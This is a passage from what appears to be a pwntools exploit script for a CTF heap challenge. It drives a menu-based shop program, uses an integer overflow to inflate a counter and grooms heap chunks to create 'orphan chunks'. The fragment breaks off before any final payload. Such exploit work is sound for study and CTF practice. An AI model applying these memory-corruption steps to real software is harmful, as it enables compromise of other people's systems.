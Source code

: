 ```
        return None


def add(idx, amount):
    p.sendlineafter('Your choice:', str(1))
    p.sendlineafter('Which item?:', str(idx))
    p.sendlineafter('?:', str(amount))
    p.recvuntil('Done!\n\n')


def remove(idx):
    p.sendlineafter('Your choice:', str(2))
    p.sendlineafter('Which item?:', str(idx))


def buy(idx, buy_all):
    p.sendlineafter('Your choice:', str(4))
    if buy_all:
        p.sendlineafter('Your choice:', str(2))
        p.sendlineafter('Your choice:', str(1))
    else:
        p.sendlineafter('Your choice:', str(1))
        p.sendlineafter('Which item?:', str(idx))
    p.recvuntil('Done!\n\n')


def show(idx, show_all):
    p.sendlineafter('Your choice:', str(3))
    if show_all:
        p.sendlineafter('Your choice:', str(2))
    else:
        p.sendlineafter('Your choice:', str(1))
        p.sendlineafter('Which item?:', str(idx))


# gdb.attach(p, '')

# Increase the number of crystals by integer overflow
overflow()

# add 16 items and buy all
while True:
    add(1, 1)
    show(0, True)
    result = p.recvuntil('You', drop=True).split('\n')
    del result[0]
    del result[-1]
    del result[-1]
    if len(result) == 16:
        break

buy(0, True)

# make two orphan chunks
while True:
    add(1, 1)
    show(0, True)
    result = p.recvuntil('You', drop=True).split('\n')
    del result[0]
    del result[-1]
    del result[-1]
    if len(result) == 3:
        break
```